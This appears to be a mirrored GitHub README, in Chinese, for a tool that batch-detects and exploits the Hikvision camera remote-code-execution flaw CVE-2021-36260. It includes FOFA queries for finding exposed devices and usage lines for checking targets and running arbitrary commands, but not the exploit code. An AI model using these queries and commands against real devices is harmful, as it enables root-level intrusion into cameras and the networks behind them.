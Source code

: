# CVE-2021-36260

海康威视RCE漏洞 批量检测和利用工具

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Cuerz](https://github.com/Cuerz) |
| Url      | [https://github.com/Cuerz/CVE-2021-36260](https://github.com/Cuerz/CVE-2021-36260)                                               |
| Stars    | 70                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2021-36260* exploit

</details>

## Readme

# 海康威视 CVE-2021-36260 RCE 漏洞

## 漏洞描述

攻击者利用该漏洞可以用无限制的 root shell 来完全控制设备，即使设备的所有者受限于有限的受保护 shell（psh）。除了入侵 IP 摄像头外，还可以访问和攻击内部网络。

## FOFA

```
header="Hikvision"			 
app="HIKVISION-视频监控"
```

## 使用方法

```
python ./CVE-2021-36260.py -u http://192.168.1.1:8080 --check
python ./CVE-2021-36260.py -u http://192.168.1.1:8080 --cmd "ls -la"
python ./CVE-2021-36260.py -f target.txt

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Start scanning url
  -f FILE, --file FILE  read the url from the file
  --check               Check if vulnerable
  --cmd CMD             execute cmd (i.e: "ls -l")
```

可批量挖掘src



## Get the content

```
git clone https://github.com/Cuerz/CVE-2021-36260
cd CVE-2021-36260
```

{% embed url="https://github.com/Cuerz/CVE-2021-36260" %}

<figure><img src="https://avatars.githubusercontent.com/u/84277976?v=4" alt=""><figcaption><p>Cuerz</p></figcaption></figure>
